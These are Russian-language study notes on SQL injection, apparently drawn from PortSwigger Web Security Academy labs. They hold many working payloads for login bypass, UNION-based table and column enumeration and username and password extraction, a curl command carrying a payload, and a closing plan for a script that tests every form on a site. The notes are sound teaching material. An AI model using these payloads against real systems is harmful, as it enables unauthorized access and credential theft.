

# 1. Внедрение SQL-кода (SQL injection)
https://portswigger.net/web-security


`SQL инъекция` (SQLi) - это уязвимость веб-безопасности, которая позволяет злоумышленнику `вмешиваться в запросы`, которые приложение отправляет в свою базу данных. Это может позволить злоумышленнику просматривать данные, которые он обычно не может извлечь. Во многих случаях злоумышленник может вызывать изменения в содержании или поведении приложения и изменять или удалять конфиденциальные данные:
* Пароли;
* Данные кредитной карты;
* Персональная информация пользователя.

### Как обнаружить уязвимости SQL инъекций ?
Вручную, используя систематический набор тестов против каждой точки входа в приложении. Для этого отправляете:
* Одиночный символ кавычки `'`. Ищет ошибки или другие аномалии.
* SQL-специфический синтаксис, который оценивает первоначальное значение точки входа и по другому значению ищет систематические различия в ответах приложений.
* Булевые условия, такие как `OR 1=1` и `OR 1=2`, ищите различия в ответах приложения.
* Полезные нагрузки, предназначенные для запуска временных задержек при выполнении запроса SQL ищут различия во времени, необходимом для ответа.
* Полезные нагрузки `OAST` (Out-of-band Application Security Testing) предназначены для запуска скрытного взаимодействия сети при выполнении в запросе SQL и мониторинга любых результирующих взаимодействий.
* Быстро и надежно найти большинство уязвимостей инъекций SQL с помощью `Burp Scanner`. 

Большинство уязвимостей SQL инъекций происходит в пределах условия `WHERE` запроса `SELECT`. Однако уязвимости инъекций SQL могут возникать в любом месте запроса:
* В `UPDATE`, в пределах обновленных значений `WHERE` условия.
* В `INSERT`, в пределах вставленных значений.
* В `SELECT`, в таблице или названии колонки.
* В `SELECT`, в рамках `ORDER BY` условия.

### 1.1 Поиск скрытых данных
Браузер запрашивает URL:
```
https://insecure-website.com/products?category=Gifts
```
Это заставляет приложение делать `SQL` запрос из базы данных:
```
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```
Запрос SQL просит базу данных вернуть:
* Все записи (*)
* Таблица products
* Колонка category является Gifts
* Ограничение released = 1 для сокрытия продуктов, которые не выпускаются.

Приложение не реализует защиту от атак инъекций SQL. Злоумышленник может построить следующую атаку, например:
```
https://insecure-website.com/products?category=Gifts'--
```
Это приводит к запросу SQL:
```
SELECT * FROM products WHERE category = 'Gifts'--' AND released = 1
```
Важно `--` является индикатором комментариев в SQL. Это означает, что остальная часть запроса интерпретируется как комментарий и запрос больше не включает `AND released = 1`.

Аналогичную атаку, чтобы заставить приложение отображать все продукты в любой категории:
```
https://insecure-website.com/products?category=Gifts'+OR+1=1--
```
Это приводит к запросу SQL:
```
SELECT * FROM products WHERE category = 'Gifts' OR 1=1--' AND released = 1
```
Измененный запрос возвращает все элементы, где либо category является Gifts, или `1 = 1` - всегда верно, запрос возвращает все предметы. 

### 1.2 Подрыв логики приложения
Если пользователь отправляет имя пользователя `wiener` и пароль `bluecheese`, приложение проверяет учетные данные, выполняя следующий запрос SQL:
```
SELECT * FROM users WHERE username = 'wiener' AND password = 'bluecheese'
```
Если запрос возвращает данные пользователя, то вход в систему успешен. В противном случае отвергнут.

Злоумышленник может войти в систему как любой пользователь без необходимости получения пароля. Они могут сделать это с помощью последовательности комментариев SQL `--` для удаления проверки пароля из `WHERE` условие запроса. Например, отправка имени пользователя `administrator'--` и пустой пароль приводит к следующему запросу:
```
SELECT * FROM users WHERE username = 'administrator'--' AND password = ''
```
Этот запрос успешно регистрирует злоумышленника как пользователя administrator. 

### 1.3 Извлечение данных из других таблиц баз данных `UNION`
Злоумышленник может использовать уязвимость инъекций SQL для извлечения данных из других таблиц в базе данных. Вы можете использовать `UNION` для выполнения дополнительного `SELECT` запроса. Например, если приложение выполняет запрос, содержащий пользовательский ввод Gifts:
```
SELECT name, description FROM products WHERE category = 'Gifts'
```
Злоумышленник может подать ввод:
```
' UNION SELECT username, password FROM users--
```
Это приводит к тому, что приложение возвращает все имена пользователей и пароли вместе с именами и описаниями продуктов. 

Ключевое слово `UNION` позволяет выполнить один или несколько дополнительных `SELECT` запросов:
```
SELECT a, b FROM table1 UNION SELECT c, d FROM table2
```
Этот SQL-запрос возвращает один набор результатов a,b,c,d из двух столбцов table1 и table2.  Для `UNION` необходимо, чтобы запросы возвращали одинаковое количество колонок и типы данных в каждой колонке должны быть совместимы между отдельными запросами.

#### Определение количества требуемых колонок
Есть два эффективных метода, чтобы определить, сколько колонн возвращается из первоначального запроса.

`Первый метод` — использование серии `ORDER BY` с постепенным увеличением индекса столбца до появления ошибки. Например, если точка инъекции находится внутри условия `WHERE` исходного запроса, можно отправлять следующие полезные нагрузки:
```
' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--
```
```
SELECT id, username FROM users WHERE username = '' ORDER BY 1--'
```
В `ORDER BY` можно указывать столбец по его индексу, поэтому нет необходимости знать имена столбцов. Когда указанный индекс превышает количество фактических столбцов, база данных выдаёт ошибку, например: `The ORDER BY position number 3 is out of range of the number of items in the select list`.
Приложение может возвращать эту ошибку базы данных в HTTP-ответе, но иногда оно выдаёт только общее сообщение об ошибке или не возвращает никаких данных.

`Второй метод` — использование серии `UNION SELECT`, где указываются разные количества NULL:
```
' UNION SELECT NULL--
' UNION SELECT NULL, NULL--
' UNION SELECT NULL, NULL, NULL--
```
Если количество NULL не соответствует количеству столбцов, база данных выдаёт ошибку, например: `All queries combined using a UNION, INTERSECT or EXCEPT operator must have an equal number of expressions in their target lists`.
Мы используем NULL, потому что типы данных каждого столбца должны быть совместимы с оригинальными. NULL можно преобразовать практически в любой стандартный тип данных. 

Исходный серверный запрос:
```
SELECT id, username FROM users WHERE username = '<USER_INPUT>';
```
Ввод пользователя:
```
' UNION SELECT NULL, NULL--
```
Реальный SQL на сервере:
```
SELECT id, username FROM users WHERE username = '' UNION SELECT NULL, NULL--';
```
В HTTP-ответе проявиться по-разному:
* В лучшем случае вы увидите дополнительный контент, например строку в HTML-таблице.
* В других случаях NULL может вызвать другую ошибку, например `NullPointerException`.
* В худшем случае ответ будет выглядеть так же, как при неправильном количестве NULL, и метод окажется неэффективным.

#### Oracle
На Oracle, каждый `SELECT` запрос должен использовать `FROM` и указать действующую таблицу. Есть `встроенная таблица на Oracle` под названием `dual` которую можно использовать для этой цели:
```
' UNION SELECT NULL FROM DUAL--
' UNION SELECT NULL,NULL FROM DUAL--
```
Описанные полезные нагрузки используют последовательность комментариев двойного тиража `--`. На MySQL последовательность двойного тире должна сопровождаться пробелом.

Для получения более подробной информации о синтаксисе для конкретной базы данных - https://portswigger.net/web-security/sql-injection/cheat-sheet

#### Поиск столбцов с полезным типом данных
Интересные данные, которые вы хотите получить, обычно находятся в `строковой форме`. Вы можете отправить серию `UNION SELECT` полезные нагрузки, которые помещают значение строки в каждую колонку по очереди. Например, если запрос возвращает четыре столбца, вы отправите:
```
' UNION SELECT 'a',NULL,NULL,NULL--
' UNION SELECT NULL,'a',NULL,NULL--
' UNION SELECT NULL,NULL,'a',NULL--
' UNION SELECT NULL,NULL,NULL,'a'--
```
Если тип данных столбца не совместим со строчными данными: `Conversion failed when converting the varchar value 'a' to data type int`. Если ошибка не возникает, то соответствующая колонка подходит для извлечения строковых данных. 

#### Для БД MySQL и Microsoft: 
```
' UNION SELECT 'a',NULL,NULL,NULL--%20
```
**Названия таблиц и колонок вытаскивают запросом из information_schema.**
#### Если база `MySQL` / `PostgreSQL` / `MariaDB`
В параметр (URL / форму) вводишь вот это:
```
' UNION SELECT table_name, NULL FROM information_schema.tables--
```
***Для БД MySQL и Microsoft:***
```
' UNION SELECT table_name, NULL FROM information_schema.tables--%20
```
В ответе страницы появятся имена таблиц. Допустим таблица `users`.
Вводишь:
```
' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name='users'--
```
В ответе будут: id, username, password, email. После этого можно читать данные:
```
' UNION SELECT username, password FROM users--
```
***Если база MS SQL Server***
Таблицы:
```
' UNION SELECT name, NULL FROM sys.tables--
```
Колонки:
```
' UNION SELECT name, NULL FROM sys.columns WHERE object_id = OBJECT_ID('users')--
```
В браузере (GET):
```
https://site/page.php?id=' UNION SELECT table_name,NULL FROM information_schema.tables--
```
```
curl "https://site/page.php?id=' UNION SELECT table_name,NULL FROM information_schema.tables--"
```

#### Использование SQL-инъекционной атаки UNION для получения интересных данных
После того как определено количество столбцов в исходном SQL-запросе и выяснено, какие из них могут выводить текст, можно извлекать данные из базы.

Предположим:
* исходный запрос возвращает 2 столбца;
* точка инъекции находится в строковом параметре условия `WHERE`;
* в базе данных есть таблица `users` с колонками `username` и `password`.

В этом случае можно выполнить SQL-инъекцию с помощью `UNION`, передав, например, такое значение:
```
' UNION SELECT username, password FROM users--
```
Этот запрос заставит базу данных добавить к результату исходного запроса данные из таблицы users.

#### Определение версии базы данных для некоторых популярных типов баз данных:
| Тип базы данных 	| Запрос |
|---|---|
| Майкрософт, MySQL |	SELECT @@version |
| Oracle |	SELECT * FROM v$version |
| PostgreSQL |	SELECT version() |

***Для БД Oracle***
Для 1-ой лаборатории Oracle определите количество столбцов, которые возвращаются запросом и какие столбцы содержат текстовые данные:
```
'+UNION+SELECT+'abc','def'+FROM+dual--
```
`BANNER` — это название столбца в системном представлении `v$version` в Oracle SQL, который содержит текстовую строку с описанием версии:
```
' UNION SELECT BANNER, NULL FROM v$version--
'+UNION+SELECT+BANNER,+NULL+FROM+v$version--
```
***Для БД MySQL и Microsoft***: 
```
' UNION SELECT @@version,null --%20
```
#### Перечисление содержания базы данных
Большинство типов баз данных (кроме Oracle) имеют набор представлений, называемый информационной схемой, например, `information_schema.tables` для перечисления таблиц в базе данных:
```
' UNION SELECT table_name,null from information_schema.tables--
```
`table_name` может быть и на втором месте, зависит от того в какой столбце вернутся тип строки:
```
' UNION SELECT NULL,'a'--
```
Вы можете запрашивать `information_schema.columns` для перечисления столбцов в отдельных таблицах:
```
' UNION SELECT column_name,null FROM information_schema.columns WHERE table_name = 'users_aryxqb' --
```
`column_name` может быть и на втором месте, зависит от того в какой столбце вернутся тип строки:
```
' UNION SELECT NULL,'a'--
```
Используйте следующую полезную нагрузку для получения имен пользователей и паролей для всех пользователей:
```
' UNION SELECT username_oflmpq,password_vwzemw FROM users_aryxqb --
```
***Перечисление содержимого базы данных Oracle***:

На `Oracle` вы можете перечислить таблицы, запросив `all_tables`:
```
' UNION SELECT null,table_name from all_tables --
или
' UNION SELECT table_name,null from all_tables --
```
Вы можете перечислить столбцы, задавая вопросы `all_tab_columns`:
```
' UNION SELECT column_name,null FROM all_tab_columns WHERE table_name = 'USERS_UPVLQK' --
```
Используйте следующую полезную нагрузку для получения имен пользователей и паролей для всех пользователей:
```
' UNION SELECT USERNAME_PIVCHF,PASSWORD_OVQUPI FROM USERS_UPVLQK --
```

#### Извлечение нескольких значений в одной колонке
Вы можете получить несколько значений вместе в одной колонке, сведя значения вместе. Вы можете включить сепаратор, чтобы вы могли различать комбинированные значения. Различные базы данных используют различный синтаксис для выполнения структурной концентрации.

Например, на `Oracle` вы можете отправить ввод:
```
' UNION SELECT username || '~' || password FROM users--
или 
' UNION SELECT NULL,password ||'~'|| username FROM users--
```
**Должна быть четкая последовательность колонок**

Вводимый запрос объединяет значения username и password поля, разделенные `~`:
```
administrator~s3cure
wiener~peter
carlos~montoya
```

### 1.4 Слепые уязвимости инъекций SQL `BLIND`
Во многих случаях SQL-инъекции являются `слепыми`: приложение не возвращает ни результаты запросов, ни сообщения об ошибках базы данных. Несмотря на это, такие уязвимости позволяют получать несанкционированные данные, хотя их эксплуатация сложнее.

Для использования слепых SQL-инъекций применяются следующие подходы:
* изменение логики запроса для выявления различий в ответе приложения в зависимости от истинности условия (булевая логика, условные ошибки);
* использование временных задержек, позволяющих определить результат условия по времени отклика;
* внеполосное взаимодействие (`OAST`), которое позволяет эксфильтровать данные, например через DNS-запросы к контролируемому домену. `OAST` — это когда приложение само выходит во внешний мир, и ты используешь это как сигнал. Если сайт не показывает ни ошибок, ни данных, ты заставляешь базу данных сделать сетевой запрос (например, DNS или HTTP) на сервер, который контролируешь ты.

#### Эксплуатация слепой инъекции SQL путем запуска условных реакций


### разработать скрипт тетсирования на sql атаку - вывод дерева сайта, вывод форм на сайте, вывод фильтров и тестирование каждой формы или фильтра sql атакой...